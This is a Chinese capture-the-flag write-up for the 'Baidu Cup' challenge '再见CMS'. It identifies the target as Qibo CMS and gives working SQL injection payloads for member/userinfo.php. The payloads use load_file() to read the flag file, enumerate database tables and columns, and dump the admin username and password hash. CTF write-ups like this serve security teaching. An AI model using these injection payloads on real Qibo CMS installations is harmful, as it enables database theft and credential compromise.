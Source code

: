 # 再见CMS

## 题目描述
---
```
这里还是有一个小脑洞
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---


## 题目分值
---


## 部署方式
---


## 解题思路
---

检测到是齐博CMS

![](images/ctf-2021-06-09-16-17-14.png)

找到一个可以利用的漏洞 https://www.2cto.com/article/201501/365742.html

向`member/userinfo.php?job=edit&step=2`发送数据包：

```
truename=xxxx%0000&Limitword[000]=&provinceid= , address=(select version()) where uid = 3 %23
```

![](images/ctf-2021-06-09-16-57-13.png)

> 注意，在漏洞博客里没有给出的含有email的payload，需要在字段中添加上old_password字段才能过校验

在进行敏感文件查找时发现存在`flag.php`文件

![](images/ctf-2021-06-09-16-58-25.png)

尝试读取文件，题目已经给出了物理路径`/var/www/html/cache/label_cache/index_0_0_25_0_0_24be0.php `

![](images/ctf-2021-06-09-17-01-15.png)

则flag.php的路径应该为`/var/www/html/flag.php`，转为16进制`2f7661722f7777772f68746d6c2f666c61672e706870`

所以payload为

```
truename=xxxx%0000&Limitword[000]=&provinceid= , address=(select load_file(0x2f7661722f7777772f68746d6c2f666c61672e706870)) where uid = 4 %23
```

![](images/ctf-2021-06-09-17-03-37.png)

![](images/ctf-2021-06-09-17-03-25.png)

成功获取到flag{d6d5128d-308a-416b-b5fe-13465cf5ab18}

## 其他
---


读数据库表

```
truename=xxxx%0000&Limitword[000]=&provinceid= , address=(select group_concat(distinct table_name) from information_schema.tables where table_schema=database()) where uid = 4 %23
```

![](images/ctf-2021-06-09-17-06-12.png)

读表`admin`列名

```
truename=xxxx%0000&Limitword[000]=&provinceid= , address=(select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name=0x61646d696e) where uid = 4 %23
```

![](images/ctf-2021-06-09-17-10-07.png)

读表`admin`内容

```
truename=xxxx%0000&Limitword[000]=&provinceid= , address=(select group_concat(username,0x7c,password,0x7c,Email) from admin) where uid = 4 %23
```

![](images/ctf-2021-06-09-17-12-35.png)

admin|2638127c92b79ee7901195382dc08068|xx 	 

![](images/ctf-2021-06-09-17-16-24.png)
